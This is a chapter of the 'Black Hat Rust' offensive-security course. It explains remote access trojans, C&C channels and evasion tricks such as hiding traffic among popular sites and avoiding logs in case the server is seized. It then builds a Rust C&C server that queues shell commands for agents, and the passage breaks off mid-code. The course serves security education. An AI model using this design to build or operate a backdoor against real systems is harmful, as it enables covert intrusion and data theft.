

+++
title = "Black Hat Rust - Chapter 10"
date = 2021-01-01T6:00:00Z
type = "page"
url = "/black-hat-rust/10"
access = "paid_members"
+++


# A modern RAT

A R.A.T. (for Remote Access Tool, also called an R.C.S., for Remote Control System, a backdoor, or a trojan) refers to software that allows an operator to remotely control one or more systems, whether it be a computer, a smartphone, a server or an internet-connected printer.


RATs are not always used for offensive operations, for example, you may know *TeamViewer*, which is often used for remote support and assistance (and by low-tech scammers).


In the context of offensive security, a RAT should be as stealthy as possible to avoid detection and is often remotely installed using exploits or phishing. The installation is often a 2 stage process. First, an extremely small program, called a dropper, stager, or downloader, is executed by the exploit or the malicious document, and this small program will then download the RAT itself and execute it. It provides more reliability during the installation process and allows, for example, the RAT to be run entirely from memory, which reduces the traces left of the targeted systems.


## Architecture of a RAT

Most of the time, a RAT is composed of 3 parts:

* An agent
* A C&C
* And a client


### The Agent

The agent is the payload. It's the software that will be executed on the targeted systems.

Advanced attack platforms are composed of a simple agent with the base functionalities and different modules that are downloaded, encrypted, and executed dynamically from memory only. It allows the operator not to deploy their whole arsenal to each target and thus reduce the risks of being caught and/or revealing their capacities.


### C&C (a.k.a. C2 or server)

The C&C (for Command and Control, also abbreviated C2)


It is operated on infrastructure under the control of the attackers, either compromised earlier or set up for the occasion, or as we will see, on "public" infrastructure such as social networks.


A famous (at least by the number of GitHub stars) open source C&C is [Merlin](https://github.com/Ne0nd0g/merlin).


### The client

Last but not least, the client is the RAT operator's interface to the server. It allows the operator(s) to send instructions to the server, which will forward them to the agents.

It can be anything from a command-line application to a web application or a mobile application. It just needs to be able to communicate with the server.


## C&C channels & methods

Using a simple server as C&C does not provide enough guarantees regarding availability in case of the server is attacked or seized: it may not only reveal details about the operation, but also put an end to it. Using creative C&C channels enables operators to avoid some detection mechanisms: in an enterprise network, a request to `this-is-not-an-attack.com` may appear suspicious, while a request (hidden among many others) to `youtube.com` will surely less draw the attention.


### Telegram

One example of a bot using telegram as C&C channel is [ToxicEye](https://blog.checkpoint.com/2021/04/22/turning-telegram-toxic-new-toxiceye-rat-is-the-latest-to-use-telegram-for-command-control/).

Why is telegram so prominent among attackers? First due to the fog surrounding the company, and second because it's certainly the social network that is the easiest to automate, as [bots](https://core.telegram.org/bots) are first-class citizens on the platform.


### Social networks


Other social networks such as [Twitter (PDF)](https://www.cpp.edu/~polysec/twitterbot/Twitter%20Paper.pdf), [Instagram](https://www.bleepingcomputer.com/news/security/russian-state-hackers-use-britney-spears-instagram-posts-to-control-malware/), [Youtube](https://blog.talosintelligence.com/2020/05/astaroth-analysis.html) and more are used by creative attackers as "serverless" C&C.

Commands for agents are hidden in comments or tweets.

On the one hand, it allows hiding in the traffic. On the other hand, if your firewall informs you that your web server has started making requests to `instagram.com`, it should raise your curiosity.


### DNS

The advantage of using DNS is that it's undoubtedly the protocol with the least chances of being blocked, especially in corporate networks or public wifis.


### Peer-to-Peer

Peer-to-Peer ([P2P](https://en.wikipedia.org/wiki/Peer-to-peer)) communication refers to an architecture pattern where no server is required, and agents (nodes) communicate directly.


In theory, the client can connect to any agent (called a node of the network), send a command, and the node will spread it to the other nodes until it reaches the intended recipient.

In practice, due to network constraints such as [NAT](https://en.wikipedia.org/wiki/Network_address_translation), some nodes of the network are temporarily elected as super-nodes and all the other agents connect to them. Operators then just have to send instructions to super-nodes, and they will forward them to the intended agents.

Due to the role that super-node are playing and the fact that they can be controlled by adversaries, end-to-end encryption (as we will see in the next chapter) is mandatory in such a topology.

Examples of P2P RAT are [ZeroAccess](https://github.com/black-hat-rust-bonuses/black-hat-rust-bonuses/blob/main/reports/zeroaccess-indepth-13-en.pdf) and some variants of [Zeus](https://github.com/black-hat-rust-bonuses/black-hat-rust-bonuses/blob/main/reports/zeus_p2p.pdf).


### Domain generation algorithms

Domain generation algorithms (DGA) are not a distinct communication channel but rather a technique to improve the availability of the C&C in case of an attack.

If the initial C&C is shut down, agents have an algorithm that will generate domain names and try to contact the C&C at these addresses. Operators then just have to register one of the domain names and migrate the C&C to it. If the C&C is again shut down, repeat.


### External Drives

Some RATs and malware use external drives such as USB keys to exfiltrate data in order to target air-gapped systems (without internet access).


One example of such advanced RAT is the [NewCore malware](https://securelist.com/cycldek-bridging-the-air-gap/97157/).


## Existing RAT

Before designing our own RAT, let's start with a quick review of the existing ones.


### Dark comet

[DarkComet](https://en.wikipedia.org/wiki/DarkComet) is the first RAT I ever encountered, around 2013. Developed by Jean-Pierre Lesueur (known as DarkCoderSc), a programmer from France, it became (in)famous after being used [by the Syrian government to steal information from the computers of activists fighting to overthrow it](https://www.wired.com/2012/07/dark-comet-syrian-spy-tool/).


### Meterpreter

Meterpreter (from the famous [Metasploit](https://www.metasploit.com/) offensive security suite), is defined by its creators as *"an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more."*.


### Cobalt Strike

[Cobalt Strike](https://www.cobaltstrike.com/) is an advanced attack platform developed and sold for red teams.

It's mainly known for its advanced customization possibilities, such as its [Malleable C2](https://blog.cobaltstrike.com/2015/04/23/user-defined-storage-based-covert-communication/) which allow operators to personalize the C2 protocol and thus reduce detection.


### Pegasus

While writing this course, circa July 2021, a scandal broke out about the Israeli spyware called pegasus, which was used to spy on a lot of civilians, and reporters.

In fact, this spyware was already covered in 2018 and 2020.
<!--
https://en.wikipedia.org/wiki/Pegasus_(spyware)#Use_by_Mexican_drug_cartels
-->


You can find [two](https://citizenlab.ca/2018/09/hide-and-seek-tracking-nso-groups-pegasus-spyware-to-operations-in-45-countries/) great [reports](https://citizenlab.ca/2020/12/the-great-ipwn-journalists-hacked-with-suspected-nso-group-imessage-zero-click-exploit/) about the use if the Pegasus RAT to target journalists on the [citizenlab.ca](https://citizenlab.ca) website.


## Why Rust

Almost all existing RAT are developed in C or C++ for the agent due to the low resources usage and the low-level control these languages provide, and Python, PHP, Ruby, or Go for the server and client parts.

Unfortunately, these languages are not memory-safe, and it's not uncommon to find vulnerabilities in various RATs. Also, it requires developers to know multiple programming languages, which is not that easy as all languages have their own pitfalls, toolchains, and hidden surprises. Finally, mixing languages doesn't encourage code re-use. Due to that, some of these RATs provide plugins and add-ons (to add features) as standalone binaries that are easier to detect by monitoring systems.


On the other hand, Rust provides low-level control but also easy package management, high-level abstractions, and great code re-usability.

Not only Rust allow us to re-use code across the agent, the server, and the client, but also by re-using all the packages we have in reserves, such as the scanners and exploits we previously crafted. Embedding them is as simple as adding a dependency to our project and calling a function!


If, as of now, I have not convinced you that Rust is THE language to rule them all, especially in offensive security, please [send me a message](https://kerkour.com), we have to discuss!


## Designing the server


### Which C&C channel to choose

Among the channels previously listed, the one that will be perfect 80% of the time and require 20% of the efforts (Hello [Pareto](https://en.wikipedia.org/wiki/Pareto_principle)) is HTTP(S).

Indeed, the HTTP protocol is rarely blocked, and as it's the foundation of the web, there are countless mature implementations ready to be used.

My experience is that if you decide not to use HTTP(S) and instead implement your own protocol, you will end up with the same features as HTTP (Requests-Responses, Streaming, Transport encryption, metadata) but half-backed, less reliable, and without the millions (more?) of man-hours of work on the web ecosystem.


### Real-time communications

All that is great, but how to do real-time communication with HTTP?

There are 4 main ways to do that:

* Short Polling
* WebSockets (WS)
* Server-Sent Events (SSE)
* Long Polling


#### Short Polling



The first method for real-time communications is short polling.

In this scenario, the client sends a request to the server, and the server immediately replies. If there is no new data, the response is empty. And most of the time it's the case. So, most of the time, the responses of the server are empty and could have been avoided.


Thus, short polling is wasteful both in terms of network and CPU, as requests need to be parsed and encoded each time.

The only pro is that it's impossible to do simpler.


#### WebSockets


A websocket is a bidirectional stream of data. The client establishes a connection to the server, and then they can both send data.

There are a lot of problems when using websockets. First, it requires keeping a lot of, often idle, open connections, which is wasteful in terms of server resources. Second, there is no auto-reconnection mechanism, each time a network error happens (if the client change from wifi to 4G for example), you have to implement your own reconnection algorithm. Third, there is no built-in authentication mechanism, so you often have to hack your way through handshakes and some kind of other custom protocol.

Websockets are the way to go if you need absolute minimal network usage and minimal latency.

The principal downside of websockets is the complexity of implementation. Moving from a request/response paradigm to streams is not only hard to shift in terms of understanding and code organization but also is terms of infrastructure (like how to configure your reverse proxies...).


#### Server-Sent Events (SSE)


Contrary to websockets, SSE streams are unidirectional: only the server can send data back to the client. Also, the mechanism for auto-reconnection is (normally) built-in into clients.

Like websockets, it requires keeping a lot of connections open.

The downside is that it's not easy to implement server-side.


#### Long Polling


Finally, there is long polling: the client emits a request with an indication of the last piece of data it has (a timestamp, for example), and the server sends the response back only when new data is available or when a certain amount of time passed.

It has the advantage of being extremely simple to implement, as it's not a stream, but a simple request-response scheme, and thus is extremely robust, does not require auto-reconnection, and can handle network errors gracefully. Also, contrary to short polling, long polling is less wasteful regarding resources usage.

The only downside is that it's not as fast as websockets regarding latency, but it does not matter for our use case (it would matter if we were designing a real-time game).


Long polling is extremely efficient in Rust in contrary to a lot of other programming languages. Indeed, thanks to `async`, very few resources (a simple `async` Task) are used per open connection, while a lot of languages use a whole OS thread.


Also, as we will see later, implementing graceful shutdowns for a server serving long-polling requests is really easy (unlike with WebSockets or SSE).

Finally, as long-polling is simple HTTP requests, it's the technique that has the highest chances of not being blocked by some kind of aggressive firewall or network equipment.


It is for all these reasons, but simplicity and robustness being the principal ones, that we choose long-polling to implement real-time communications for our RAT.


### Architecting a Rust web application

There are many patterns to design a web application. A famous one is the "[Clean Architecture](https://blog.cleancoder.com/uncle-bob/2012/08/13/the-clean-architecture.html)" by *Robert C. Martin*

](assets/ch10_clean_architecture.jpg)

This architecture splits projects into different layers in order to produce systems that are
1. *Independent of Frameworks. The architecture does not depend on the existence of some library of feature laden software. This allows you to use such frameworks as tools, rather than having to cram your system into their limited constraints.*
2. *Testable. The business rules can be tested without the UI, Database, Web Server, or any other external element.*
3. *Independent of UI. The UI can change easily, without changing the rest of the system. A Web UI could be replaced with a console UI, for example, without changing the business rules.*
4. *Independent of Database. You can swap out Oracle or SQL Server, for Mongo, BigTable, CouchDB, or something else. Your business rules are not bound to the database.*
5. *Independent of any external agency. In fact your business rules simply don’t know anything at all about the outside world.*

You can learn more about the clean architecture in the eponym book: [Clean Architecture](https://www.goodreads.com/book/show/18043011-clean-architecture) by *Robert C. Martin*.


But, in my opinion, the clean architecture is too complex, with its jargon that resonates only with professional architects and too many layers of abstraction. It's not for people actually writing code.

This is why I propose another approach, equally flexible but much simpler and which can be used for traditional server-side rendered web applications and for JSON APIs.


As far as I know, this architecture has no official and shiny name, but I have used it with success for projects exceeding tens of thousands of lines of code in Rust, Go, and Node.JS.


The advantage of using such architecture is that, if in the future the requirements or one dependency are revamped, changes are local and isolated.


Each layer should communicate only with adjacent layers.

Let's dig in!

#### Presentation

The presentation layer is responsible for the deserialization of the requests and the serialization of the responses.

It has its own models (HTML templates or structure to be encoded in JSON / XML). It encapsulates all the details about encoding responses of our web server.

The presentation layer calls the services layer.

#### Services

The services layer is where the business logic lives. All our application's rules and invariants live in the services layer.

Need to verify a phone number? But what is the format of a phone number? The response to this question is in the service layer.


What are the validations to proceed to when creating a job for an agent? This is the role of the service layer.


#### Entities

The entities layer encapsulates all the structures that will be used by the services layer. Each service has its own group of entities.

Why not call this part a model? Because a model often refers to an object persisted in a database or sent by the presentation layer. In addition to being confusing, in the real world, not all entities are persisted. For example, an object representing a group with its users may be used in your services but neither persisted nor transmitted by the presentation layer.

In our case, the entities will `Agent`, `Job` (a job is a command created by the client, stored and dispatched by the server, and executed by the agent),


#### Repository

The repository layer is a thin abstraction over the database. It encapsulates all the database calls.

The repository layer is called by the services layer.


#### Drivers

And the last piece of our architecture, `drivers`. Drivers encapsulate calls to third-party APIs and communication with external services such as email servers or block storage.

`drivers` can only be called by `services`, because this is where the business logic lives.


### Scaling the architecture

You may be wondering, "Great, but how to scale our server once we already have a lot of features implemented and we need to add more?"

You simply need to "horizontally scale" your services and repositories. One pair for each [bounded domain context](https://martinfowler.com/bliki/BoundedContext.html).


As you may have guessed, if our project becomes too big, each service will become a "micro-service".


### Choosing a web framework

So now we have our requirements, which web framework to choose?

A few months ago, I would have told you: go for `actix-web`. Period.

But now that the transition to v4 is taking [too much time and is painful](https://github.com/actix/actix-web/blob/master/CHANGES.md), I would like to re-evaluate this decision.

When searching for web servers, we find the following crates:

| crate | Total downloads *(June 2022)* |
| --- | --- |
| [hyper](https://crates.io/crates/hyper) | 48,742,101 |
| [actix-web](https://crates.io/crates/actix-web) |  6,311,955 |
| [warp](https://crates.io/crates/warp) | 5,201,354 |
| [axum](https://crates.io/crates/axum) | 1,131,161 |
| [tide](https://crates.io/crates/tide) | 581,359 |
| [gotham](https://crates.io/crates/gotham) | 101,907 |


**hyper** is the *de facto* and certainly more proven HTTP library in Rust. Unfortunately, it's a little bit too low-level for our use case.


**actix-web** was the rising star of Rust web frameworks. It was designed for absolute speed and was one of the first web frameworks to adopt `async/await`. Unfortunately, its history is tainted by some drama, where the original creator decided to leave. Now the development has stalled.


**warp** is a web framework on top of `hyper`, made by the same author. It is small, and reliable, and fast enough for 99% of projects. There is one downside: its API is just plain weird. It's elegant in terms of functional programming, as being extremely composable using [Filters](https://docs.rs/warp/0.3.1/warp/trait.Filter.html), but it does absolutely not match the mental model of traditional web framework (request, server, context). That being said, it's still understandable and easy to use.

**axum** is the new kid in town. [Developed by tokio's team](https://github.com/tokio-rs/axum/) which is a very strong signal of quality, it provides a very clean API and a rich ecosystem thanks to [tower-http](https://crates.io/crates/tower-http). Like `warp`, `axum` is built on top of `hyper` which make it very reliable.


**tide** is, in my opinion, the most elegant web framework available. Unfortunately, it relies on the `async-std` runtime, and thus can't be used (or with weird side effects) in projects using `tokio` as async runtime.


Finally, there is **gotham**, which is, like `warp`, built on top of `hyper` but seems to provide a better API. Unfortunately, this library is still early, and there is (to my knowledge) no report of extensive use in production.


Because we are aiming for a simple to use and robust framework, which works with the `tokio` runtime, we are going to use [`warp`](https://github.com/seanmonstar/warp).

Beware that due to its high use of generics and its weird API `warp` may not be the best choice if you are designing a server with hundreds of endpoints, compilation can be slow and the code hard to understand.

<!-- Because we are aiming for a simple to use and robust framework, which works with the `tokio` runtime, we are going to use [`axum`](https://github.com/tokio-rs/axum).

Beware that `axum` is relatively new, so its youthfulness might make some people uncomfortable. -->


<!--

Now, warp is not a silver bullet. Notably the extreme use of generics will increase your compile time a lot, and may even crash your compilation if you have too many filters (https://github.com/seanmonstar/warp/issues/811). But for a C&C server which souldn't have thousands of routes, it's, in my opinion, a very good choice.

 -->


### Choosing the remaining libraries


#### Database access

The 3 main contenders for the database access layer are:

* [diesel](https://crates.io/crates/diesel)
* [tokio-postgres](https://crates.io/crates/tokio-postgres)
* [sqlx](https://crates.io/crates/sqlx)

`diesel` is is a *Safe, Extensible ORM and Query Builder for Rust*. It was the first database library I ever used. Unfortunately, there are two things that make this library not ideal. First, it's an [ORM](https://en.wikipedia.org/wiki/Object%E2%80%93relational_mapping), which means that it provides an abstraction layer on top of the database, which may take time to learn, is specific to this library, and hard to master. Secondly, it provides a sync interface, which means that calls are blocking, and as we have seen in Chapter 3, it may introduce subtle and hard to debug bugs in an application dominantly async, such as a web server.

Then comes `tokio-postgres`. This time the library is async. Unfortunately, it is too low-level to be productive. It requires that we do all the deserialization ourselves, which may introduce a lot of bugs because it removes the type safety provided by Rust, especially when our database schema will change (database schemas **always** changes).

`sqlx` is the clear winner of the competition. In addition to providing an async API, it provides type safety which greatly reduces the risk of introducing bugs. But the library goes even further: with its [query!](https://docs.rs/sqlx/0.5.5/sqlx/macro.query.html) macro, queries can be checked at compile (or test) time against the schema of the database.


#### logging

In the context of offensive security, logging is tedious. Indeed, in the case your C&C is breached or seized, it may reveal a lot of information about who your targets are and what kind of data was exfiltrated.

This is why I recommend not to log every request, but instead only errors for debugging purposes, and to be very **very** careful not to log data about your targets.


## Designing the agent


The principal constraint: being as small as possible.

The problem with the most popular libraries is that they tend to be very big and not designed for our use case.


### Choosing an HTTP library

When searching on [crates.io for HTTP client](https://crates.io/search?page=1&per_page=10&q=HTTP%20client&sort=downloads), we find the following contenders:

* [hyper](https://crates.io/crates/hyper)
* [reqwest](https://crates.io/crates/reqwest)
* [awc (Actix Web Client)](https://crates.io/crates/awc)
* [ureq](https://crates.io/crates/ureq)
* [surf](https://crates.io/crates/surf)


I'll keep it short. I think the best one fitting our requirements for the agent (to be small, easy to use, and correct) is [ureq](https://crates.io/crates/ureq).


## Docker for offensive security

<!--
https://en.wikipedia.org/wiki/Docker_(software)
https://en.wikipedia.org/wiki/Docker,_Inc.
https://opencontainers.org/
 -->

Docker (which is the name of both the software and the company developing it), initially launched in 2013, and took the IT world by storm.
Based on lightweight virtual containers, it allows backend developers to package all the dependencies and assets of an application in a single image and to deploy it as is. They are a great and modern alternative to traditional virtual machines, usually lighter and that can launch in less than 100ms.

By default, containers are not as secure as Virtual Machines, this is why new runtimes such as [katacontainers](https://katacontainers.io/) or [gvisor](https://github.com/google/gvisor) emerged to provide stronger isolation and allow to run multiple **untrusted** containers on the same machine. Breaking the boundaries of a container is called an "escape".

Container images are built using a `Dockerfile` which is kind of a recipe.


But today, Dockerfiles and the Open Containers Initiative (OCI) Image Format are not only used for containers. It has become a kind of industry standard for immutable and reproducible images. For example, the cloud provider [fly.io is using `Dockerfile`](https://fly.io/blog/docker-without-docker/) to build [Firecracker micro-VMs](https://github.com/firecracker-microvm/firecracker). You can see a `Dockerfile` as a kind of recipe to create a cake. But better than a traditional recipe, you only need the `Dockerfile` to build an image that will be perfect 100% of the time.


Containers were and still are a revolution. I believe it will take a long time before the industry moves toward a new packaging and distribution format, especially for backend applications such as our C&C server. Learning how it works and how to use it is an absolute prerequisite in today's world.


In this course, we won't explore how to escape from a container, but instead, how to use Docker to sharpen our arsenal. In this chapter, we will see how to build a Docker image to easily package a server application, and in chapter 12, we will see how to use Docker to create a reproducible cross-compilation toolchain.


## Let's code


### The server (C&C)

#### Error

The first thing I do when I start a new Rust project is to create my `Error` enum. I do not try to guess all the variants ahead of time but instead let it grow organically.

That being said, I always create an `Internal(String)` variant for errors I don't want or can't handle gracefully.

**[ch_10/server/src/error.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/error.rs)**
```rust
use thiserror::Error;

#[derive(Error, Debug, Clone)]
pub enum Error {
    #[error("Internal error")]
    Internal(String),
}
```

#### Configuration

There are basically 2 ways to handle the configuration of a server application:

* configuration files
* environment variables

**Configuration files** such as JSON or TOML have the advantage of providing built-in typing.

On the other hand, **environment variables** do not provide strong typing but are easier to use with the modern deployment and DevOps tools.

We are going to use the [`dotenv`](https://crates.io/crates/dotenv) crate.

**[ch_10/server/src/config.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/config.rs)**
```rust
use crate::Error;

#[derive(Clone, Debug)]
pub struct Config {
    pub port: u16,
    pub database_url: String,
}

const ENV_DATABASE_URL: &str = "DATABASE_URL";
const ENV_PORT: &str = "PORT";

const DEFAULT_PORT: u16 = 8080;
```

```rust
impl Config {
    pub fn load() -> Result<Config, Error> {
        dotenv::dotenv().ok();

        let port = std::env::var(ENV_PORT)
            .ok()
            .map_or(Ok(DEFAULT_PORT), |env_val| env_val.parse::<u16>())?;

        let database_url =
            std::env::var(ENV_DATABASE_URL).map_err(|_| env_not_found(ENV_DATABASE_URL))?;

        Ok(Config { port, database_url })
    }
}

fn env_not_found(var: &str) -> Error {
    Error::NotFound(format!("config: {} env var not found", var))
}
```


Then we can proceed to configure the database connection.

Unfortunately, PostgreSQL is bounded by RAM in the number of active connections it can handle. A safe default is 20.

**[ch_10/server/src/db.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/db.rs)**
```rust
use log::error;
use sqlx::{self, postgres::PgPoolOptions, Pool, Postgres};
use std::time::Duration;

pub async fn connect(database_url: &str) -> Result<Pool<Postgres>, crate::Error> {
    PgPoolOptions::new()
        .max_connections(20)
        .max_lifetime(Duration::from_secs(30 * 60)) // 30 mins
        .connect(database_url)
        .await
        .map_err(|err| {
            error!("db: connecting to DB: {}", err);
            err.into()
        })
}

pub async fn migrate(db: &Pool<Postgres>) -> Result<(), crate::Error> {
    match sqlx::migrate!("./db/migrations").run(db).await {
        Ok(_) => Ok(()),
        Err(err) => {
            error!("db::migrate: migrating: {}", &err);
            Err(err)
        }
    }?;

    Ok(())
}
```

#### Presentation layer (API)

The presentation layer (here a JSON API), is responsible for the following tasks:

* Routing
* Decoding requests
* Calling the service layer
* Encoding responses

##### Routing

Routing is the process of matching an HTTP request to the correct function.

Routing with the `warp` framework is not intuitive at all (it doesn't match the mental model of web developers and is very verbose) but is very powerful.

It was designed to be composable. It should be approached more like functional programming than a traditional web framework.

**[ch_10/server/src/api/routes/mod.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server//src/api/routes/mod.rs)**
```rust
use agents::{get_agents, post_agents};
use index::index;
use jobs::{create_job, get_agent_job, get_job_result, get_jobs, post_job_result};
use std::{convert::Infallible, sync::Arc};
use warp::Filter;

mod agents;
mod index;
mod jobs;

use super::AppState;

pub fn routes(
    app_state: Arc<AppState>,
) -> impl Filter<Extract = impl warp::Reply, Error = Infallible> + Clone {
    let api = warp::path("api");
    let api_with_state = api.and(super::with_state(app_state));

    // GET /api
    let index = api.and(warp::path::end()).and(warp::get()).and_then(index);

    // GET /api/jobs
    let get_jobs = api_with_state
        .clone()
        .and(warp::path("jobs"))
        .and(warp::path::end())
        .and(warp::get())
        .and_then(get_jobs);
```

```rust
    // POST /api/jobs
    let post_jobs = api_with_state
        .clone()
        .and(warp::path("jobs"))
        .and(warp::path::end())
        .and(warp::post())
        .and(super::json_body())
        .and_then(create_job);

    // GET /api/jobs/{job_id}/result
    let get_job = api_with_state
        .clone()
        .and(warp::path("jobs"))
        .and(warp::path::param())
        .and(warp::path("result"))
        .and(warp::path::end())
        .and(warp::get())
        .and_then(get_job_result);

    // POST /api/jobs/result
    let post_job_result = api_with_state
        .clone()
        .and(warp::path("jobs"))
        .and(warp::path("result"))
        .and(warp::path::end())
        .and(warp::post())
        .and(super::json_body())
        .and_then(post_job_result);
```

```rust
    // POST /api/agents
    let post_agents = api_with_state
        .clone()
        .and(warp::path("agents"))
        .and(warp::path::end())
        .and(warp::post())
        .and_then(post_agents);

    // GET /api/agents
    let get_agents = api_with_state
        .clone()
        .and(warp::path("agents"))
        .and(warp::path::end())
        .and(warp::get())
        .and_then(get_agents);

    // GET /api/agents/{agent_id}/job
    let get_agents_job = api_with_state
        .clone()
        .and(warp::path("agents"))
        .and(warp::path::param())
        .and(warp::path("job"))
        .and(warp::path::end())
        .and(warp::get())
        .and_then(get_agent_job);
```

And finally:
```rust
    let routes = index
        .or(get_jobs)
        .or(post_jobs)
        .or(get_job)
        .or(post_job_result)
        .or(post_agents)
        .or(get_agents)
        .or(get_agents_job)
        .with(warp::log("server"))
        .recover(super::handle_error);

    routes
}
```


#### Decoding requests

Decoding requests is performed in two steps:

A reusable `wrap` filter:

**[ch_10/server/src/api/mod.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server//src/api/mod.rs)**
```rust
pub fn json_body<T: DeserializeOwned + Send>(
) -> impl Filter<Extract = (T,), Error = warp::Rejection> + Clone {
    warp::body::content_length_limit(1024 * 16).and(warp::body::json())
}
```


And directly using our Rust type in the signature of our handler function, here `api::CreateJob`.

**[ch_10/server/src/api/routes/jobs.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server//src/api/routes/jobs.rs)**
```rust
pub async fn create_job(
    state: Arc<AppState>,
    input: api::CreateJob,
) -> Result<impl warp::Reply, warp::Rejection> {
```

#### Calling the service layer

Thanks to `warp`, our function directly receive the good type, so calling the services layer is as simple as:

**[ch_10/server/src/api/routes/jobs.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server//src/api/routes/jobs.rs)**
```rust
    let job = state.service.create_job(input).await?;
```

#### Encoding responses

Finally, we can send the response back:

**[ch_10/server/src/api/routes/jobs.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server//src/api/routes/jobs.rs)**
```rust
    let job: api::Job = job.into();

    let res = api::Response::ok(job);
    let res_json = warp::reply::json(&res);
    Ok(warp::reply::with_status(res_json, StatusCode::OK))
}
```


##### Implementing long-polling

Long polling is a joy to implement in Rust. It's a basic loop: we search for available jobs. If there is one, we send it back as a response. Otherwise, we sleep a little bit and continue the loop. Repeat as much as you want.

After 5 seconds, we return an empty response.

```rust
pub async fn get_job_result(
    state: Arc<AppState>,
    job_id: Uuid,
) -> Result<impl warp::Reply, warp::Rejection> {
    let sleep_for = Duration::from_secs(1);

    // long polling: 5 secs
    for _ in 0..5u64 {
        let job = state.service.find_job(job_id).await?;
        match &job.output {
            Some(_) => {
                let job: api::Job = job.into();
                let res = api::Response::ok(job);
                let res_json = warp::reply::json(&res);
                return Ok(warp::reply::with_status(res_json, StatusCode::OK));
            }
            None => tokio::time::sleep(sleep_for).await,
        }
    }

    // if no job is found, return empty response
    let res = api::Response::<Option<()>>::ok(None);
    let res_json = warp::reply::json(&res);
    Ok(warp::reply::with_status(res_json, StatusCode::OK))
}
```

By using `tokio::time::sleep`, an active connection will barely use any resources when waiting.


#### Service layer

Remember, the service layer is the one containing all our business logic.

**[ch_10/server/src/service/mod.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/service/mod.rs)**
```rust
use crate::Repository;
use sqlx::{Pool, Postgres};

mod agents;
mod jobs;

#[derive(Debug)]
pub struct Service {
    repo: Repository,
    db: Pool<Postgres>,
}

impl Service {
    pub fn new(db: Pool<Postgres>) -> Service {
        let repo = Repository {};
        Service { db, repo }
    }
}
```

**[ch_10/server/src/service/jobs.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/service/jobs.rs)**
```rust
use super::Service;
use crate::{entities::Job, Error};
use chrono::Utc;
use common::api::{CreateJob, UpdateJobResult};
use sqlx::types::Json;
use uuid::Uuid;

impl Service {
    pub async fn find_job(&self, job_id: Uuid) -> Result<Job, Error> {
        self.repo.find_job_by_id(&self.db, job_id).await
    }
```

```rust
    pub async fn list_jobs(&self) -> Result<Vec<Job>, Error> {
        self.repo.find_all_jobs(&self.db).await
    }
```

```rust
    pub async fn get_agent_job(&self, agent_id: Uuid) -> Result<Option<Job>, Error> {
        let mut agent = self.repo.find_agent_by_id(&self.db, agent_id).await?;

        agent.last_seen_at = Utc::now();
        // ignore result as an error is not important
        let _ = self.repo.update_agent(&self.db, &agent).await;

        match self.repo.find_job_for_agent(&self.db, agent_id).await {
            Ok(job) => Ok(Some(job)),
            Err(Error::NotFound(_)) => Ok(None),
            Err(err) => Err(err),
        }
    }
```

```rust
    pub async fn update_job_result(&self, input: UpdateJobResult) -> Result<(), Error> {
        let mut job = self.repo.find_job_by_id(&self.db, input.job_id).await?;

        job.executed_at = Some(Utc::now());
        job.output = Some(input.output);
        self.repo.update_job(&self.db, &job).await
    }
```

```rust
    pub async fn create_job(&self, input: CreateJob) -> Result<Job, Error> {
        let command = input.command.trim();
        let mut command_with_args: Vec<String> = command
            .split_whitespace()
            .into_iter()
            .map(|s| s.to_owned())
            .collect();
        if command_with_args.is_empty() {
            return Err(Error::InvalidArgument("Command is not valid".to_string()));
        }

        let command = command_with_args.remove(0);

        let now = Utc::now();
        let new_job = Job {
            id: Uuid::new_v4(),
            created_at: now,
            executed_at: None,
            command,
            args: Json(command_with_args),
            output: None,
            agent_id: input.agent_id,
        };

        self.repo.create_job(&self.db, &new_job).await?;

        Ok(new_job)
    }
}
```


**[ch_10/server/src/service/agents.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/service/agents.rs)**
```rust
use super::Service;
use crate::{
    entities::{self, Agent},
    Error,
};
use chrono::Utc;
use common::api::AgentRegistered;
use uuid::Uuid;

impl Service {
    pub async fn list_agents(&self) -> Result<Vec<entities::Agent>, Error> {
        self.repo.find_all_agents(&self.db).await
    }
```

```rust
    pub async fn register_agent(&self) -> Result<AgentRegistered, Error> {
        let id = Uuid::new_v4();
        let created_at = Utc::now();

        let agent = Agent {
            id,
            created_at,
            last_seen_at: created_at,
        };

        self.repo.create_agent(&self.db, &agent).await?;

        Ok(AgentRegistered { id })
    }
}
```

#### Repository layer


**[ch_10/server/src/repository/mod.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/repository/mod.rs)**
```rust
mod agents;
mod jobs;

#[derive(Debug)]
pub struct Repository {}
```

Wait, but why do we put the database in the service and not the repository. Because sometimes (often), you will need to use [transactions](https://www.postgresql.org/docs/current/tutorial-transactions.html) in order to make multiple operations atomic. Thus you need the transaction to live across multiple calls to the repositories' methods.


**[ch_10/server/src/repository/jobs.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/repository/jobs.rs)**
```rust
use super::Repository;
use crate::{entities::Job, Error};
use log::error;
use sqlx::{Pool, Postgres};
use uuid::Uuid;

impl Repository {
    pub async fn create_job(&self, db: &Pool<Postgres>, job: &Job) -> Result<(), Error> {
        const QUERY: &str = "INSERT INTO jobs
            (id, created_at, executed_at, command, args, output, agent_id)
            VALUES ($1, $2, $3, $4, $5, $6, $7)";

        match sqlx::query(QUERY)
            .bind(job.id)
            .bind(job.created_at)
